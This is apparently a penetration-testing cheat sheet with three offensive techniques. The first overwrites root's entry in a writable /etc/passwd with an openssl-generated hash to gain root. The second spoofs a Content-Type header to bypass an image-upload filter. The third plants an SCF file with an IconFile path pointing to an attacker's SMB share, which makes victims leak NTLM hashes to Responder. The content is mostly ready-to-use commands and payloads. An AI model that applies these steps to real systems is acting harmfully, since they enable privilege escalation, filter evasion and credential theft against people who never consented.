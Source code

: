 # /etc/passwd Writable

Insert Root Password Hash
```
openssl passwd passwordofchoice

Note: The extra steps below are precautionary instead of edit in place.
cp /etc/passwd /tmp/passwd.orig
cp /etc/passwd /tmp/passwd

vi /tmp/passwd
root:generatedhash:0:0:root:/root:/bin/bash

cp /tmp/passwd /etc/passwd
```

# File Upload Bypass

## Image Upload Bypass

Change the Content-Type Header to the Expected Type
`Content-Type: image/jpeg`

# SMB

SCF (Shell Command Files)

```
Start responder: sudo responder -v -I interface

(Note: Filename starts with @ to bring file to top of directory listing)
Contents of @test.scf:

[Shell]
Command=2
IconFile=\\attacker\share\test.ico
[Taskbar]
Command=ToggleDesktop

Deliver file.

When user opens file, an SMB connection will be made to the attacker, which should be captured by responder, revealing an NTLM hash.
```